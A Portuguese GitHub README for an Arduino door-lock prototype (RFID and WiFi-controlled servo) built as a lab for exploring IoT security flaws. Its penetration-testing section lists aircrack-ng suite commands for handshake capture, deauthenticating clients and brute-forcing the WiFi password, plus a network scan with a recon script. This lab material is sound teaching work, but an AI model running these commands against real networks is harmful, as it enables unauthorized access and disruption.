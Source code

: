 # Arduino-DoorLock


O projeto apresentado no presente repositório se trata de um sistema de controle de acesso físico utilizando o microcontrolador Arduino. O protótipo final simula o funcionamento de um mecanismo para trancar e destrancar portas de forma eletrônica, controlado via Cartão RFID e WiFi, onde, caso o acesso seja bem-sucedido, um Servo Motor é movimentado liberando a abertura da porta.

A premissa ao simular - o que poderia ser o controle de acesso físico de um ambiente real - é evidenciar, analisar e explorar as possíveis vulnerabilidades que podem ser encontradas em implementações inseguras de redes e dispositivos IoT. Para tanto, neste projeto, são executados testes de segurança que exemplificam de forma semelhante a realidade os ataques cibernéticos mais recorrentes, conforme aponta o relatório da [“OWASP Top 10 IoT”](https://owasp.org/www-pdf-archive/OWASP-IoT-Top-10-2018-final.pdf), de 2018.


## Tabela de Conteúdos
* [Sobre](#arduino-doorlock)
* [Tabela de Conteúdos](#tabela-de-conteúdos)
* [Pré-Requisitos](#pré-requisitos)
* [User Story](#user-story)
* [Testes de Invasão](#testes-de-invasão)
* [Autores](#autores)

## Pré-Requisitos
Nesta seção são apresentados todos os pré-requisitos necessários para reproduzir o protótipo do [DoorLock](https://github.com/iuribpmoro/Arduino-DoorLock).

### Materiais
Para montagem deste projeto serão necessários os seguintes componentes:
* [Arduino UNO](https://www.filipeflop.com/produto/placa-uno-r3-cabo-usb-para-arduino/)
* [Protoboard 400 pontos](https://www.filipeflop.com/produto/protoboard-400-pontos/#tab-description)
* [Servo Motor](https://www.filipeflop.com/produto/micro-servo-sg92r-9g-towerpro/)
* [Módulo leitor RFID MFRC522](https://www.filipeflop.com/produto/kit-modulo-leitor-rfid-mfrc522-mifare/?utm_source=google&utm_medium=organic&utm_campaign=shopping&utm_content=surfaces_across_google)
* [Ethernet Shield W5100 para Arduino](https://www.filipeflop.com/produto/ethernet-shield-w5100-para-arduino/)
* [Cabo de Rede](https://www.filipeflop.com/produto/cabo-de-rede-conector-rj45-15m/)
* [Sensor Hall Magnético KY-003](https://www.filipeflop.com/produto/sensor-hall-ky-003/)
* [LED Verde](https://www.baudaeletronica.com.br/led-difuso-5mm-verde.html)
* [LED Vermelho](https://www.baudaeletronica.com.br/led-difuso-5mm-vermelho.html)
* [2 x Resistor 220Ω](https://www.filipeflop.com/produto/resistor-220%cf%89-14w-x20-unidades/)
* Jumpers

### Montagem
A montagem deste projeto segue o sketch de demonstração.
Lembrando que o Ethernet Shield deve ser conectado sobre o Arduino.

<details>
  <summary>Clique para visualizar o sketch</summary>
  <img alt="DoorLock Sketch" src="https://github.com/iuribpmoro/Arduino-DoorLock/blob/main/Sketch/door_lock_sketch.png" height="700px">
</details>

### Instalação
Para anexar o protótipo em uma maquete ou mesmo em uma porta, deve-se seguir a estrutura:
[instalacao-doorlock.pdf](https://github.com/iuribpmoro/Arduino-DoorLock/files/6788697/instalacao-doorlock.pdf)

### Softwares
Os pré-requisitos a nível de software para reproduzir a aplicação:
* [Arduino IDE](https://www.arduino.cc/en/software)
* [Biblioteca](https://www.arduino.cc/reference/en/libraries/mfrc522/) (Passo a passo: [Adicionar bibliotecas na IDE do arduino](https://www.robocore.net/tutoriais/adicionando-bibliotecas-na-ide-arduino))
* [Código-fonte do DoorLock](https://github.com/iuribpmoro/Arduino-DoorLock/blob/main/DoorLock/DoorLock.ino)

Por fim, o arduino deve ser conectado via USB com o computador, o código deve ser carregado na placa e o ambiente estará pronto.

## User Story

### Cartão
**Eu como** pessoa autorizada a acessar um determinado local

**Quero que** consiga abrir a porta deste local aproximando meu cartão RFID do leitor<br>
**Ou** consiga abrir a porta deste local através da wifi, acessando uma determinada rota que faz uma requisição de abertura da porta
**e** só tranque novamente quando após eu fechá-la
**ou** caso eu não abra, deverá se trancar novamente

**Para** não utilizar chaves<br>
**e** poder manipular a minha fechadura a distância

### Conversa
O servo deve girar em 90º quando:
- O conteúdo lido no card RFID estiver correspondente
- A requisição WiFi enviada for para a rota /b

O controle para saber se a porta está aberta ou fechada de ser feita pelo Sensor Magnético.<br>
Se estiver perto do imã que está na porta, significa que está fechada. Senão, está aberta.

### Confirmação

Cenário 01 - Abrindo a porta - <Válido>: 
1.  **Dado que** possuo um cartão RFID autorizado ou conheço a requisição WiFi correta a ser enviada
2.  **Quando** aproximar meu cartão da leitora ou enviar uma requisição WiFi correta
3.  **Então** o LED verde acenderá, a fechadura será destrancada e eu poderei abrir a porta dentro dos próximos 5 segundos.
4.  **Caso 1:** Caso eu não abra a porta, a fechadura irá trancar novamente e o LED verde será apagado
5.  **Caso 2:** Caso eu abra a porta, a fechadura só vai trancar 5 segundos após eu fechar, assim como o LED verde se apagará

Cenário 02 - Abrindo a porta - <Inválido>: 
1.  **Dado que** não possuo um cartão RFID autorizado, nem conheço a requisição WiFi correta a ser enviada
2.  **Quando** aproximar meu cartão da leitora ou enviar uma requisição WiFi incorreta ou apenas tentar abrir a porta
3.  **Então** o LED vermelho acenderá e a fechadura permanecerá trancada.

## Testes de Invasão

Primeiramente, demonstra-se o funcionamento de um ataque físico de cópia de conteúdos em tags RFID, por meio da utilização de um
segundo arduino configurado para atingir esse objetivo. Em segundo lugar, exemplifica-se um ataque de força bruta para a quebra
da senha da rede WiFi na qual o dispositivo está conectado, descrevendo os riscos de utilizar senhas fracas e previsíveis.

Por meio da utilização do script [Automap](https://github.com/iuribpmoro/Automap) que realizam o reconhecimento, scanning e enumeração da rede, descobre-se, por fim, como operar a fechadura por meio de requisições web, finalizando o processo de ataque.

### WiFi Hacking
#### Setup da Interface
- Iniciar modo de monitoramento da interface WiFi:
```bash
sudo airmon-ng start wlan0
```
- Verifique as interfaces wireless:
```bash
sudo iwconfig
```
#### Scanning da Rede
- Realize o scan das redes próximas e tome nota do BSSID e Channel da rede alvo:
```bash
sudo airodump-ng wlan0mon
```
- Realize o scan da rede alvo, tomando nota do MAC dos dispositivos conectados e salvando os handshakes a serem capturados:
```bash
sudo airodump-ng -c <CANAL_DA_REDE> --bssid <BSSID_DA_REDE> -w <PREFIXO_DO_ARQUIVO_DE_OUTPUT> wlan0mon
```
#### Deauthentication
- Em outro terminal, enquanto o outro roda o comando anterior, expulse os hosts da rede por meio de um ataque de deauthentication:
```bash
sudo aireplay-ng -0 2 -a <BSSID_DA_REDE> -c <MAC_DO_DISPOSITIVO>
```
#### Brute Force
- Realize um ataque de força bruta nos pacotes capturados para tentar realizar a quebra da senha:
```bash
sudo aircrack-ng <ARQUIVO>.cap -w <WORDLIST>
```
## Scanneando a Rede
### Instalando o Automap
- Baixe a ferramenta do github:
```bash
git clone https://github.com/iuribpmoro/Automap
```
- Rode o script de instalação:
```bash
./install.sh
```
### Rodando o Automap
- Rode o scan na rede e em todos os hosts conectados:
```bash
./Automap.sh network <REDE> <WORDLIST_DE_DIRETORIOS> -n <NUMERO_DE_PORTAS>
```

## Autores
### Gabrieli Silva
[![Gmail Badge](https://img.shields.io/badge/Gmail-D14836?style=for-the-badge&logo=gmail&logoColor=white
)](mailto:nets.gss@gmail.com)[![Linkedin Badge](https://img.shields.io/badge/linkedin%20-%230077B5.svg?&style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/gabrieli-silva-435627164/)
### Iuri Moro
[![Gmail Badge](https://img.shields.io/badge/Gmail-D14836?style=for-the-badge&logo=gmail&logoColor=white
)](mailto:iuribpmoro@gmail.com)[![Linkedin Badge](https://img.shields.io/badge/linkedin%20-%230077B5.svg?&style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/iuribpmoro/)
